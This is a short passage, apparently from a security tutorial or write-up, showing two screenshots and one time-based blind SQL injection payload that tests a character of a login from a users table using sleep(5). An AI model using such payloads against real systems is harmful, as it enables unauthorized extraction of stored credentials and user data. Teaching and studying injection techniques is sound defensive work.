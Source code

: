 [![sqlinjectblindsleep25](/images/sqlinjectblindsleep25.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep25.png)

```sql
' or 1=1 AND substring((SELECT login FROM users LIMIT 1,1),3,1) = 'e' AND sleep(5)-- -
```

[![sqlinjectblindsleep26](/images/sqlinjectblindsleep26.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep26.png)
